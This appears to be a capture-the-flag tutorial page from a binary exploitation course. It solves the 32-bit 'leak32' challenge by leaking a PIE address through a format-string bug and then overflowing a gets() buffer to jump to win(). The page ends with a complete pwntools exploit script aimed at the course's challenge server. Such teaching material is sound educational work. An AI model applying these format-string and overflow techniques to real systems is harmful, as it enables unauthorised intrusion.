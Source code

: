 ```yaml
---
description: Using a format string to leak an address.
---
```


# leak32

{% file src="../../.gitbook/assets/leak32.zip" %}

In this case, we won't be provided a leak. Instead, we must combine how we used format strings and find our own leak. Solving this challenge will be remarkably similar to how we solve canary challenges, so be sure you're confident in Sections 0x3 and 0x4 before moving on.

### Static Analysis

PIE is indeed enabled, and there is no canary:

```bash
$ checksec ./leak32
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/leak32/src/leak32'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We'll move straight to the `read_in` function. You can verify that `main` and `win` haven't changed. This code is actually the same as one of the canary challenges, replacing the canary with PIE. We'll see that it doesn't change our exploit that much.

Here is the source code for `read_in`. This was collected straight from `gdb`, so please ensure you're confident doing this.

```c
void read_in()
{
    puts("What's your name?");
    gets(ebp-0x30);
    
    printf("Nice to meet you ");
    printf(ebp-0x30);
    putchar(0xa);   // newline
    
    printf("What's your message?");
    gets(ebp-0x30);
    
    return;
}
```

We'll use a format string against the first input. Let's test what happens when we do that to see what addresses get printed. In this case, because we are looking for addresses, we use `%p` instead of `%x`:

```bash
$ ./leak32
What's your name?
%p %p %p %p %p %p %p %p
Nice to meet you (nil) 0x1000000 0x566301f9 0xf7ee2540 (nil) 0x25207025 0x70252070 0x20702520
What's your message?
```

The only item here that looks like an address is `0x566301f9`. `0xf7ee2540` a far away instruction or a stack address, so it's not as helpful. We'll check both just to be sure our intuition is correct.

{% hint style="warning" %}
When using breakpoints on a binary with PIE enabled, they **must** be an offset from a known function. Addressing based on what you see in `disas read_in` won't work. Use something like `disas *(read_in+8)`.
{% endhint %}

Also, we can't check _those_ specific addresses because PIE is enabled. We need to check the addresses shown on each specific run. To do this, put a breakpoint at the vulnerable `printf` call and check the stack.

```as
gef➤  x/10wx $esp
0xffffd580:	0xffffd598	0x00000000	0x01000000	0x565561f9
0xffffd590:	0xf7fc4540	0x00000000	0x25207025	0x70252070
0xffffd5a0:	0x20702520	0x25207025
```

The first address is the address of the format string. We start counting from the second item (which reads `(nil)` in the standard output). We want the third and fourth options, which also have the same high bytes.

```as
gef➤  x/wx 0x565561f9
0x565561f9 <read_in+12>:	0x2dc7c381
gef➤  x/wx 0xf7fc4540
0xf7fc4540 <__kernel_vsyscall>:	0x89555251
```

Aha! The third value resolves to `read_in + 12`, which happens to be the base pointer for `read_in`. The fourth value resolves to `__kernel_vsyscall`, which is a function in the kernel. The first one is more useful, so we use that.

### Exploitation

We'll use a very similar exploit to the previous binary, just accounting for how we will receive the leak.

We'll start by establishing the binary and process:

```python
elf = context.binary = ELF('./leak32')
p = remote('vunrotc.cole-ellis.com', 7200)
```

Then, we need to receive the leak. We'll receive the third format string parameter, which we know is at `read_in + 12`. From there, we'll compute `elf.address`:

```python
p.sendline(b'%3$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.read_in + 12)
```

Now, we can build the payload. It's a simple ret2win from here!

```python
payload = b'A' * 0x34
payload += p32(elf.sym.win)
```

Finally, we send the payload.

```python
p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```

This gets us the flag! Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./leak32')
p = remote('vunrotc.cole-ellis.com', 7200)

p.recvline()

p.sendline(b'%3$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.read_in + 12)

payload = b'A' * 0x34
payload += p32(elf.sym.win)

p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```
{% endcode %}